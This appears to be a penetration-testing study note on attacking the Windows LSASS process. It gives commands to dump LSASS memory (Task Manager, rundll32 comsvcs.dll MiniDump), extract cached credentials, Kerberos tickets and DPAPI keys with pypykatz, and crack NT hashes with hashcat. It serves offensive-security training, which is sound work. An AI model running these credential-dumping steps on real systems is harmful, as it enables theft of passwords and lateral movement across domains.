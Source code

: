 In logon LSASS will:

- Cache credentials locally in memory
- Create [access tokens](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens)
- Enforce security policies
- Write to Windows [security log](https://docs.microsoft.com/en-us/windows/win32/eventlog/event-logging-security)

## Dumping LSASS Process Memory

### Task Manager Method
![[taskmanagerdump.webp]]

The `lsass.DMP` file will be saved in:
```cmd-session
C:\Users\loggedonusersdirectory\AppData\Local\Temp
```

A way to transfer the file is discussed in [[Attacking SAM]]

### Finding LSASS PID in CMD
```cmd-session
C:\Windows\system32> tasklist /svc
```

### Finding LSASS PID in PowerShell
```powershell-session
PS C:\Windows\system32> Get-Process lsass
```

#### Creating lsass.dmp using PowerShell
```powershell-session
PS C:\Windows\system32> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 652 C:\lsass.dmp full
```

## Using Pypykatz to Extract Credentials

We can use [pypykatz](https://github.com/skelsec/pypykatz) for extracting credentials from the dmp file, Pypykatz is an implementation of Mimikatz written entirely in Python, which gives us the ability to run it on Linux.

LSASS only stores credentials with active logon sessions.

### Running Pypykatz
```shell-session
$ pypykatz lsa minidump <lsass.dmp file path>
```

### MSV
[MSV](https://docs.microsoft.com/en-us/windows/win32/secauthn/msv1-0-authentication-package) is an authentication package in Windows that LSA calls on to validate logon attempts against the SAM database.

### WDIGEST
WDIGEST is an old authentication protocol used with old Windows machines, LSASS stores credentials used by WDIGEST in clear text, Microsoft released a security update for this issue.

### Kerberos
LSASS `caches passwords`, `ekeys`, `tickets`, and `pins` associated with Kerberos. It is possible to extract these from LSASS process memory and use them to access other systems joined to the same domain.

### DPAPI
The Data Protection Application Programming Interface or [DPAPI](https://docs.microsoft.com/en-us/dotnet/standard/security/how-to-use-data-protection) is a set of APIs in Windows operating systems used to encrypt and decrypt DPAPI data blobs on a per-user basis for Windows OS features and various third-party applications.

With Mimikatz and Pypykatz we can extract the DPAPI master key for the data of logged in users, this master key can be used to decrypt the secrets associated with the applications that use DPAPI.

#### Examples of applications that use DPAPI
|Applications|Use of DPAPI|
|---|---|
|`Internet Explorer`|Password form auto-completion data (username and password for saved sites).|
|`Google Chrome`|Password form auto-completion data (username and password for saved sites).|
|`Outlook`|Passwords for email accounts.|
|`Remote Desktop Connection`|Saved credentials for connections to remote machines.|
|`Credential Manager`|Saved credentials for accessing shared resources, joining Wireless networks, VPNs and more.|

### Cracking the NT Hash With Hashcat
```shell-session
$ sudo hashcat -m 1000 <hash> /usr/share/wordlists/rockyou.txt
```